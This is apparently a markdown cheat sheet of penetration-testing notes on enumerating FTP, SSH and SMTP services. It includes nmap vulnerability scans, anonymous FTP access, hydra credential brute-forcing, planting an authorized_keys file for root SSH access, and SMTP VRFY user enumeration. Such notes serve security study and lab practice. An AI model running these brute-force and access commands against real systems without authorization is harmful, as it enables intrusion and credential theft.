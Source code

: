 ### FTP (21)
- A few common passwords or usernames (if unknown) such as admin, administrator, root, ftpuser, test etc. should be tried if anonymous authentication is disabled on the remote FTP server
- common FTP command (https://steflan-security.com/ftp-enumeration-guide/)
```bash
#FTP Enum
nmap –script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 10.0.0.1

#use FileZilla
#or use browser
ftp://X.X.X.X/ 

ftp X.X.X.X
#provide anonymous as username
#provide any passowrd

#FTP connect
ftp IP -p <<passive mode port no.>>

#recursive download all files
wget -r ftp://username:passsword@IP

#bruteforce credentials
hydra [-L users.txt or -l user_name] [-P pass.txt or -p password] -f [-S port] ftp://X.X.X.X
```

### SSH (22)
```bash
nc $IP 22

#private key - id_rsa
#public key - id_rsa_pub
#connect using private key - ssh username@IP -i id_rsa

#generate SSH keys (called fileup and renamed it as authorized_keys)
ssh-keygen
cat fileup.pub > authorized_keys

#connecting to target (at port 2222)
rm ~/.ssh/known_hosts
- ssh -p 2222 -i fileup root@mountaindesserts.com
- 

```

### SMTP
```bash
nmap -p25 <[SUBNET]> --open
nc -nv IP 25
VRFY <[USERNAME]>
```
